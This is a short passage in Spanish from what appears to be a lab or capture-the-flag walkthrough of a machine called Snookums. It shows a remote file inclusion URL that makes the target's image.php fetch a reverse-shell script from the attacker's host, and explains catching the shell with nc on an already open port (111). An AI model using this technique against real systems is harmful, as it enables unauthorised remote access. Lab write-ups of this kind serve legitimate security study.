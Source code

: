 ```bash
http://192.168.169.58/image.php?img=http://192.168.45.223/rshell.php
```

![image.png](assets/img/post-img/Snookums/image%2013.png)

- Después de mucho rato y de algunas pruebas, descubrimos que solo podemos recibir la **REVERSE SHELL** si nos ponemos en escucha por **NC** a través de un **NÚMERO de PUERTO** de los que la máquina víctima tiene abiertos. En este caso vamos a elegir el puerto “**111**”. Modificamos el puerto en la **REVERSE SHEL**L, lo lanzamos de nuevo y recibimos la conexión:
